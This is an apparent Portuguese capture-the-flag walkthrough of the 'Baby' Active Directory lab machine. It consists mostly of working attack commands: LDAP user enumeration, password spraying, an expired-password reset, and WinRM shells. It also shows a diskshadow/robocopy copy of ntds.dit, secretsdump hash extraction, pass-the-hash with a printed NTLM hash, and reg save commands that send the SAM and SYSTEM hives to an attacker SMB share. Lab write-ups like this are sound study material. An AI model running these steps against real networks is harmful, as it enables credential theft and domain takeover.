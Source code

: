 Baby
========================

## Enumeration

![qownnotes-media-CfVduq](../../../media/qownnotes-media-CfVduq.png)

![qownnotes-media-DbhlUL](../../../media/qownnotes-media-DbhlUL.png)

SMB

![qownnotes-media-tDhTDj](../../../media/qownnotes-media-tDhTDj.png)

    crackmapexec smb baby.vl -u usernames.txt -p passwords.txt --shares --continue --no-bruteforce

![qownnotes-media-pfvbMV](../../../media/qownnotes-media-pfvbMV.png)

    crackmapexec smb baby.vl -u usernames.txt -p 'BabyStart123!' --shares --continue --no-bruteforce

![qownnotes-media-wezqbz](../../../media/qownnotes-media-wezqbz.png)

    impacket-smbpasswd baby.vl/Caroline.Robinson@babydc.baby.vl -newpass 'P@ssw0rd!'

![qownnotes-media-nhVTnV](../../../media/qownnotes-media-nhVTnV.png)

Caroline.Robinson:P@ssw0rd!

    crackmapexec smb baby.vl -u Caroline.Robinson -p 'P@ssw0rd!' --shares
    
    crackmapexec winrm baby.vl -u Caroline.Robinson -p 'P@ssw0rd!'

![qownnotes-media-FFOtcJ](../../../media/qownnotes-media-FFOtcJ.png)

CONSEGUIMOS SHELL

Kerberos

![qownnotes-media-oFnWQn](../../../media/qownnotes-media-oFnWQn.png)

    impacket-GetNPUsers -request -usersfile usernames.txt baby.vl/ -dc-ip 10.10.96.83

![qownnotes-media-bsjTBa](../../../media/qownnotes-media-bsjTBa.png)

DNS

![qownnotes-media-iljQQe](../../../media/qownnotes-media-iljQQe.png)

LDAP

    ldapsearch -x -H ldap://baby.vl -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName

    ldapsearch -x -H ldap://baby.vl -D '' -w '' -b "DC=baby,DC=vl" | grep userPrincipalName
    
![qownnotes-media-Ugemmm](../../../media/qownnotes-media-Ugemmm.png)

![qownnotes-media-jUfwzb](../../../media/qownnotes-media-jUfwzb.png)

Agora que notei a senha "BabyStart123!"

Caroline.Robinson:BabyStart123!

    cat usernames.txt > passwords.txt
    cat usernames.txt | tr '[:upper:]' '[:lower:]' >> passwords.txt

## PrivEsc


    whoami /priv

![qownnotes-media-viPDya](../../../media/qownnotes-media-viPDya.png)

    cat test.dsh 

```
set context persistent nowriters
add volume c: alias test
create
expose %test% z:
```

    unix2dos test.dsh

Depois disso, fazer o upload desse arquivo para a máquina alvo:

    mkdir c:\temp
    cd c:\temp
    upload test.dsh
    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    download ntds.dit

Depois de baixar o arquivo para a máquina do atacante, basta executarmos o impacket-secretsdump

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-UUMZHP](../../../media/qownnotes-media-UUMZHP.png)

    crackmapexec winrm baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"
 
![qownnotes-media-SrXcsj](../../../media/qownnotes-media-SrXcsj.png)

    evil-winrm -i baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"

![qownnotes-media-AizZrF](../../../media/qownnotes-media-AizZrF.png)

## ADD

Vale considerar que o que foi feito de maneira local não funcionou...

    reg save HKLM\SYSTEM \\10.8.1.121\smb\system
    reg save HKLM\SAM \\10.8.1.121\smb\sam
    
    impacket-secretsdump -sam sam -system system local
 
 ![qownnotes-media-SQJbKk](../../../media/qownnotes-media-SQJbKk.png)
 
 ![qownnotes-media-QWpHBK](../../../media/qownnotes-media-QWpHBK.png)